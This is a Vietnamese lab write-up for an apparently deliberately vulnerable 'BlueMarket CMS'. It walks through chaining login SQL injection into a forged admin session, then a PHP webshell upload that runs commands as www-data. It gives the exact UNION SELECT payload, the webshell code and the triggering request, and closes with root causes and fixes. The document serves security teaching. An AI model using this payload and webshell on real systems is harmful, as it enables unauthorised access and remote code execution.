

## Hướng 4. SQLi Admin Takeover Upload RCE

### Mô tả

BlueMarket CMS có trang login và khu vực admin:

```text
Login route: /login
Admin route: /admin
Media upload route: /admin/media
```

Hướng này không dùng primitive RCE trực tiếp từ database. Thay vào đó, SQL Injection ở login được dùng để tạo session admin giả, sau đó abuse chức năng upload media để upload PHP webshell.

Các file liên quan:

```text
app/src/Controllers/AuthController.php
app/src/Controllers/AdminController.php
app/src/Services/UploadService.php
```

Login vulnerable:

```php
$user = $db->queryOne("SELECT * FROM users WHERE username = '" . $username . "'");
```

Với login bình thường `username=admin`, query thực tế là:

```sql
SELECT * FROM users WHERE username = 'admin'
```

Sau khi query trả về một row, `AuthController` kiểm tra password rồi lấy các
giá trị `id`, `username`, `email` và `role` từ row đó để tạo `$_SESSION['user']`.
Vì vậy chain này có hai giai đoạn riêng: làm query trả về row giả, rồi dùng
role `admin` trong session để đi tới chức năng upload.

Upload vulnerable:

```php
if ($mode === 'fixed') {
    $allowed = ['jpg', 'jpeg', 'png', 'gif', 'webp'];
}

move_uploaded_file((string) $file['tmp_name'], $target);
```

Trong vulnerable mode, upload không chặn extension `.php`.

#### Phân tích source và điều kiện cần

Chain này đi qua hai trust boundary khác nhau:

```text
AuthController::login()
-> username được ghép vào SELECT users
-> row trả về được passwordMatches() kiểm tra
-> id, email và role của row được ghi vào $_SESSION['user']
-> is_admin()/requireAdmin() tin role trong session
-> AdminController::uploadMedia()
-> UploadService::store() dùng filename để tạo target path
-> Nginx chuyển file .php trong uploads cho PHP-FPM
```

Source login:

```php
$user = $db->queryOne("SELECT * FROM users WHERE username = '" . $username . "'");

if (!$user || !$this->passwordMatches($password, (string) $user['password_hash'])) {
    \redirect('/login');
}

$_SESSION['user'] = [
    'id' => (int) $user['id'],
    'role' => $user['role'],
];
```

Source upload:

```php
$name = basename((string) $file['name']);
$target = $this->dir . '/' . $name;

if ($mode === 'fixed') {
    $allowed = ['jpg', 'jpeg', 'png', 'gif', 'webp'];
    // extension không nằm trong allow-list sẽ bị từ chối
}

move_uploaded_file((string) $file['tmp_name'], $target);
```

Chain chỉ thực hiện được khi các điều kiện sau cùng đúng:

```text
1. APP_MODE=vulnerable để login dùng string concatenation.
2. UNION SELECT cung cấp đúng 7 cột của bảng users.
3. passwordMatches() còn fallback hash_equals() cho plaintext trong lab.
4. Row giả có role=admin và role đó được ghi vào session.
5. Session takeover được gửi lại khi truy cập /admin/media.
6. Upload service chấp nhận filename có đuôi .php.
7. public/uploads có quyền ghi và nằm dưới document root.
8. Nginx/PHP-FPM cho phép thực thi PHP trong thư mục uploads.
```

Chỉ có SQLi thì chưa đủ để RCE ở Hướng 4: SQLi tạo session admin, còn upload
không kiểm soát và PHP execution mới là bước biến quyền admin thành code
execution.

Chain khai thác:

```text
SQL Injection trong /login
-> UNION SELECT tạo row admin giả
-> password gửi lên khớp với password_hash giả
-> app tạo session role=admin
-> truy cập /admin/media
-> upload shell.php
-> gọi /uploads/shell.php?cmd=id
-> RCE dưới quyền www-data
```

### Phân tích và khai thác
**Source tại bước này:** `AuthController::login()` nối trực tiếp `username` vào
câu truy vấn:

```php
$user = $db->queryOne("SELECT * FROM users WHERE username = '" . $username . "'");
```


Vì vậy có thể đóng dấu nháy hiện tại rồi chèn một row admin giả bằng `UNION SELECT`.
Bảng `users` có 7 cột nên payload cũng phải trả đủ 7 giá trị:

```sql
' UNION SELECT 999,'owned','owned@bluemarket.local','ownedpass','admin','Injected admin row',CURRENT_TIMESTAMP-- -
```

Sau khi ứng dụng nối payload vào source, PostgreSQL nhận được:

```sql
SELECT *
FROM users
WHERE username = ''
UNION SELECT
    999,
    'owned',
    'owned@bluemarket.local',
    'ownedpass',
    'admin',
    'Injected admin row',
    CURRENT_TIMESTAMP
-- -'
```

- Dấu `'` đầu tiên đóng chuỗi `username` của ứng dụng.
- `UNION SELECT` thêm row có `role='admin'`; `-- -` vô hiệu hóa dấu nháy còn dư.
- Gửi `password=ownedpass` để vượt qua kiểm tra mật khẩu fallback của lab.
- Ứng dụng tạo session với `role=admin`, sau đó `requireAdmin()` cho phép truy cập `/admin/media`.



```
' UNION SELECT 999,'owned','owned@bluemarket.local','ownedpass','admin','Injected admin row',CURRENT_TIMESTAMP-- -

ownedpass
```

Nếu thành công, response redirect vào `/admin` và trả session cookie.

Tiếp theo tạo PHP webshell:

**Source tại bước này:** SQLi đã kết thúc ở bước tạo session. Request tiếp theo
đi qua `requireAdmin()`, `AdminController::uploadMedia()` và
`UploadService::store()`. Ở vulnerable mode, service giữ filename bằng
`basename()` nhưng không allow-list extension, nên file `.php` được lưu vào
webroot.

```php
<?php system($_GET["cmd"] ?? "id"); ?>
```

Đây không còn là SQL payload. Sau khi đã có session admin, request multipart
đưa file vào `AdminController::uploadMedia()`, rồi `UploadService::store()`
dùng `basename($file['name'])` để giữ tên `shell.php`. Ở vulnerable mode không
có allow-list extension, nên file được ghi vào `public/uploads`.

Upload service lấy file name bằng basename():

```php
$name = basename((string) $file['name']);
$target = $this->dir . '/' . $name;
move_uploaded_file((string) $file['tmp_name'], $target);
```

Trong UploadService.php, dòng này lấy path đó ra:

```php
'uploads' => dirname(__DIR__) . '/public/uploads'
```

Nên `store()` ghi file vào `app/public/uploads/<filename>`.

Sau khi upload, mở:

```http
GET /uploads/shell.php?cmd=id HTTP/1.1
Host: localhost:5000
```

Nginx map `/uploads/shell.php` vào document root và chuyển file `.php` cho
PHP-FPM. PHP thực thi `system($_GET["cmd"] ?? "id")`, nên `cmd=id` mới là
bước chứng minh RCE dưới quyền process web `www-data`.

Kết quả mong đợi:

```text
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


### Root cause

Chain này ghép từ hai lỗi chính.

Lỗi thứ nhất là SQL Injection ở login:

```text
1. username do user kiểm soát.
2. username được nối trực tiếp vào SQL.
3. UNION SELECT có thể tạo row giả.
4. app tin row trả về từ database là user thật.
5. role=admin trong row giả được đưa vào session.
```

Lỗi thứ hai là upload không kiểm soát extension trong vulnerable mode:

```text
1. Admin có quyền upload media.
2. Server dùng filename từ user.
3. Không chặn extension .php.
4. File được lưu trong public/uploads.
5. Nginx/PHP-FPM xử lý file .php trong uploads.
6. Webshell được thực thi khi truy cập qua HTTP.
```

Trong fixed mode, login dùng parameterized query:

```php
$user = $db->paramsOne('SELECT * FROM users WHERE username = $1', [$username]);
```

Username chỉ còn là dữ liệu, không thể `UNION SELECT`.

Upload fixed mode chỉ cho phép media extension:

```php
$allowed = ['jpg', 'jpeg', 'png', 'gif', 'webp'];
```

File `shell.php` sẽ bị từ chối.

Tóm tắt root cause:

```text
1. SQL Injection trong login.
2. Session role lấy trực tiếp từ row query trả về.
3. Password fallback cho phép plaintext trong lab.
4. Upload thiếu allow-list extension ở vulnerable mode.
5. Webroot cho phép execute file upload.
6. Thiếu tách biệt giữa file upload và PHP runtime.
```
